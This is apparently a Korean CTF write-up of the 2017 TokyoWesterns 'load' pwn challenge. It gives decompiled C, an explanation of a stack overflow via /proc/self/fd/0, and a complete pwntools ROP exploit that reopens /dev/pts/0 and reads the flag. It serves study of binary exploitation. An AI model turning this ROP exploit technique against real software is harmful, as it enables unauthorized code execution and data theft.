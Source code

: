 ```yaml
---
title: "2017 TokyoWesterns CTF 4th load"
date: 2020-4-27
ctf: TokyoWesterns CTF
layout: post
published : false
---
```


* file description
* open("/dev/pts/0", O_RDWR)
* /proc/self/fd/0

```
[*] '/vagrant/ctfs/load'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

main함수에서 전역변수 filename에 입력받고 fileopen함수에서 해당 파일을 열어줍니다. 

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char v4; // [rsp+0h] [rbp-30h]
  __int64 size; // [rsp+20h] [rbp-10h]
  __off_t offset; // [rsp+28h] [rbp-8h]

  setup();
  _printf_chk(1LL, "Load file Service\nInput file name: ");
  input_Str(filename, 128);
  _printf_chk(1LL, "Input offset: ");
  offset = input_Num();
  _printf_chk(1LL, "Input size: ");
  size = input_Num();
  fileopen(&v4, filename, offset, size);
  close_0_1_2();
  return 0LL;
}
```

fileopen을 해주는 함수인데 아까 우리가 전역변수 filename에 준 이름을 열어버린다. 그 fd를 가지고 read를 호출해줍니다.

```c
int __fastcall fileopen(void *a1, const char *a2, __off_t a3, __int64 a4)
{
  size_t nbytes; // [rsp+0h] [rbp-30h]
  __off_t offset; // [rsp+8h] [rbp-28h]
  int fd; // [rsp+2Ch] [rbp-4h]

  offset = a3;
  fd = open(a2, 0, a4);
  if ( fd == -1 )
    return puts("You can't read this file...");
  lseek(fd, offset, 0);
  if ( read(fd, a1, nbytes) > 0 )
    puts("Load file complete!");
  return close(fd);
}
```

stdin, stdout, stderr를 닫아버립니다. 

```c
int close_0_1_2()
{
  close(0);
  close(1);
  return close(2);
}
```

`/proc/self/fd/0` 를 이용해서 stack에 입력받을 수 있다. 그래서 rip control이 가능하다. 근데 close로 0,1,2를 다 닫아버리니까 open으로 stdin, stdout을 복구해서 flag파일을 읽으면 된다. `open("/dev/pts/0", O_RDWR);` 를 2번해주면 된다. 처음에 stdin이 열리고 두번째에 stdout이 열린다. 그리고 flag파일을 여러개 열어주고 rdx가젯이 없어서 csu 가젯으로 대충 어림잡아 fd잡고 bss에 플래그 넣어주고 puts로 출력해주면 된다. 

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./load')
p = process('./load')
prdi = 0x0000000000400a73 # pop rdi ; ret
prsi_r15 = 0x0000000000400a71 # pop rsi ; pop r15 ; ret
name = 0x0000000000601040
csu_pop = 0x0000000000400A6A
csu_call = 0x0000000000400A50

pay = '/proc/self/fd/0\x00'
pay += '/dev/pts/0\x00'
pay += './flag\x00'

p.sendlineafter(':',pay)
p.sendlineafter(':','0')
p.sendlineafter(':','1000')
# pause()

# open('/dev/pts/0',O_RDWR -> 2) 
# open STDIN
pay = 'A'*0x38
pay += p64(prdi)
pay += p64(name+16)
pay += p64(prsi_r15)
pay += p64(2)
pay += p64(0)
pay += p64(e.plt['open'])

# open('/dev/pts/0',O_RDWR -> 2)
# open STDOUT
pay += p64(prdi)
pay += p64(name+16)
pay += p64(prsi_r15)
pay += p64(2)
pay += p64(0)
pay += p64(e.plt['open'])

# open('./flag',O_RDWR)
# open ./flag
for i in range(7):
	pay += p64(prdi)
	pay += p64(name+27)
	pay += p64(prsi_r15)
	pay += p64(2)
	pay += p64(0)
	pay += p64(e.plt['open'])

pay += p64(csu_pop)
pay += p64(0) + p64(1) + p64(e.got['read']) + p64(100) + p64(e.bss() + 0x300) + p64(5) + p64(csu_call)

pay += p64(csu_pop)
pay += p64(0) + p64(1) + p64(e.got['puts']) + p64(0) + p64(0) + p64(e.bss() + 0x300) + p64(csu_call)

p.sendline(pay)

p.interactive()
```

